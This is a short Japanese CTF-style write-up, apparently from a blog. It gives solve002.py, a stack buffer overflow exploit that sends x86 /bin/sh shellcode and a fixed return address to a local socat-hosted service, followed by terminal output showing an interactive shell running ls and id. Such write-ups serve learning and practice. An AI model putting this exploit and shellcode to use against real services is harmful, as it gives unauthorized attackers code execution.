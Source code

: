 とりあえずsocatで立てたローカルサーバでシェルを取れるようにsolve002.pyを書いてみた。
ローカルだとシェルの起動成功！

```python:solve002.py
import socket
import telnetlib
import sys
import struct

def read_until(sock, s):
    line = b""
    while line.find(s) < 0:
        line += sock.recv(1)
    return line


host = "localhost"
port = 10000

target_addr = int(0xffffd410)
print("%x" % (target_addr))
target_addr = struct.pack("<L", target_addr)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
print(host)
print(port)
sock.connect((host, port))

ret = read_until(sock, b"Which product would you like?\n")
print(ret)

shellcode_sh = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sock.sendall(b"A" * 20 + shellcode_sh + b"B" * 35 + target_addr)

t = telnetlib.Telnet()
t.sock = sock
t.interact()
```


```bash-statement
$ python solve002.py
ffffd410
localhost
10000
b'The following products are available:\n|  Saucer  | $1 |\n| Kicksled | $2 |\n| Airboard | $3 |\n| Toboggan | $4 |\n0xffffd3fc\nWhich product would you like?\n'
ls
Sorry, we are closed.
ls
attack.sh
attack_local.sh
exploit001.txt
id
uid=1002(saru) gid=1002(saru) groups=1002(saru),27(sudo),33(www-data)
exit
*** Connection closed by remote host ***

```
